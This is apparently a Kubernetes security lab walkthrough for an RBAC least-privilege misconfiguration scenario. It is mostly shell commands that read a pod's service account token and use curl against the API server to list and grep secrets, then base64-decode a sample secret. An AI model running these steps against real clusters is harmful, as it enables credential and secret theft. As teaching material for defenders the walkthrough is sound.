 # K02: RBAC least privileges misconfiguration

## Context

Most of the workloads and resources end up having wider privileges than it is intended to have. In this example you'll see how simple misconfiguration can gain access to secrets.

## Exploit

```shell
# Show secrets and pods in namespace
kubectl -n big-monolith get secrets,pods
```

Visit [http://127.0.0.1:1236](http://127.0.0.1:1236)

```shell
cd /var/run/secrets/kubernetes.io/serviceaccount/
ls -l
total 0
lrwxrwxrwx 1 root root 13 Jun 14 09:52 ca.crt -> ..data/ca.crt
lrwxrwxrwx 1 root root 16 Jun 14 09:52 namespace -> ..data/namespace
lrwxrwxrwx 1 root root 12 Jun 14 09:52 token -> ..data/token
cat token
cat namespace

{
    export APISERVER=https://${KUBERNETES_SERVICE_HOST};
    export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount;
    export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace);
    export TOKEN=$(cat ${SERVICEACCOUNT}/token);
    export CACERT=${SERVICEACCOUNT}/ca.crt;
}

curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep \"k8svaultapikey\"

echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

## Links

- [Attacking private registry](https://madhuakula.com/kubernetes-goat/docs/scenarios/scenario-7/attacking-private-container-registry-in-kubernetes/welcome)